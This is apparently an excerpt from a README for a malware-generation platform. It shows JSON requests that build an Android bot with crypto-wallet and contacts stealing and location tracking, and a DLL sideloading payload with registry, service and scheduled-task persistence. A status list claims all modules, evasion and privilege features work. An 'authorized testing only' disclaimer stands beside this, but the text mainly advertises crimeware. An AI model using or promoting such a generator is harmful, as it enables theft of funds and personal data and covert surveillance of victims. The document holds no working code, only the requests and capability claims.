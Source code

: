 ### **HTTP Bot with Mobile Features:**
```json
{
  "engineId": "http-bot-generator", 
  "action": "generateHTTPBot",
  "params": {
    "botConfig": {
      "platform": "android",
      "features": ["cryptoStealer", "contactsStealer", "locationTracking"]
    }
  }
}
```

### **Beaconism DLL Sideloading:**
```json
{
  "engineId": "beaconism-dll-sideloading",
  "action": "generateSideloadPayload",
  "params": {
    "target": "java-rmi.exe",
    "encryption": "AES-256-GCM",
    "persistence": ["registry", "service", "scheduled-task"]
  }
}
```

---

## 🛡️ **Security & Compliance**

⚠️ **IMPORTANT:** This platform is designed for:
- ✅ **Educational purposes**
- ✅ **Security research**
- ✅ **Penetration testing**
- ✅ **Red team exercises**
- ✅ **Authorized testing only**

🚫 **NOT for:**
- ❌ **Unauthorized access**
- ❌ **Illegal activities**
- ❌ **Malicious purposes**
- ❌ **Criminal activities**

---

## 🎯 **Current Status Summary**

### **✅ FULLY OPERATIONAL:**
- **47/47 Modules Loading Successfully**
- **All Bot Features Available**
- **Complete Encryption Suite**
- **Advanced Evasion Techniques**
- **Comprehensive Persistence**
- **Multi-Platform Support**
- **Elevated Privileges Active**
